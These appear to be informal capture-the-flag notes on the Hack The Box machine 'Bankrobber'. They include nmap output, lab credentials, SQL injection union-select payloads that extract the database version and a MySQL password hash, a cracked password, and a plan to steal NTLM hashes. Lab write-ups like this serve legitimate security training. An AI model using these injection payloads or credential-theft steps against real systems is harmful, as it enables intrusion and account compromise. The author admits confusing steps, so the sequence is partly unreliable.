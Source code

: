 # Bankrobber

- Difficulty: "Insane"
- Platform: Windows
---

10.10.10.154

## Nmap
```bash
I wiped out disk without backing up notes like an idiot... 
picking up from web-admin access

The Rundown:

Esentially, there is a database user search and and E-Coin transfer service. 
The transfer service is manually reviewed by an administrator. 

The filed inputs do not validate/sanitize.
A cross-site scripting attack is possible, although finicky, returning the administrators cookie within the response headers.

There seems to be SQL-Injection present in the user database lookup, although I have yet to go any further. I am conflating both these things together and I forget what I actually did ut oh well... continuing.

➜  Bankrobber git:(main) ✗ sudo nmap -oA nmap/found-TCP-detailed 
	-p$(cat nmap/allports-TCP-initial.nmap | grep open | awk '{ print $1 }' | awk '{ print $0+0}' | sed ':a;N;$!ba;s/\n/,/g')
	-sCV -T4 --min-rate 5000 -Pn 10.10.10.154
 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-30 02:53 EDT
Stats: 0:00:40 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.82% done; ETC: 02:54 (0:00:00 remaining)
Nmap scan report for 10.10.10.154
Host is up (0.027s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-07-30T06:54:01
|_  start_date: 2023-07-30T05:18:55

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.85 seconds
```

`admin:Hopelessromantic`

A regular union select statement reveals version `MariaDB-10.1.38` in field 2:`
```http
POST /admin/search.php HTTP/1.1
Host: 10.10.10.154
Content-Length: 37
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://10.10.10.154
Referer: http://10.10.10.154/admin/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D
Connection: close

term=1'union+select+1,@@version,3-- -
```

```
term=1'union+select+1,user()+from+mysql.user,3-- -
user: `root@localhost`

lucky guess:
term=1'union slect user,password,3 from mysql.user--
hash: *F435725A173757E57BD36B09048B8B610FF4D0C4
```

SHA-1 hash decodes to `Welkom1!`. This could be either admin or gio's password. 
Connections aren't permitted to the MySQL service from an external IP. Localhost only:
```bash
➜  loot git:(main) ✗ mysql -u 'gio' -p 'Welkom1!' -h 10.10.10.154
mysql: Deprecated program name. It will be removed in a future release, use '/usr/bin/mariadb' instead
Enter password: 

ERROR 1130 (HY000): Host '10.10.14.2' is not allowed to connect to this MariaDB server
```

This password does not work on SMB. 
A possibility would be to capture an NTLM hash since mysql is available.

Resources: 
https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds
https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/

Querying `term=1'union select @@secure_file_priv,2,3;-- -` outputs nothing in field 1, indicating that the secure file privilege parameter is not effective.

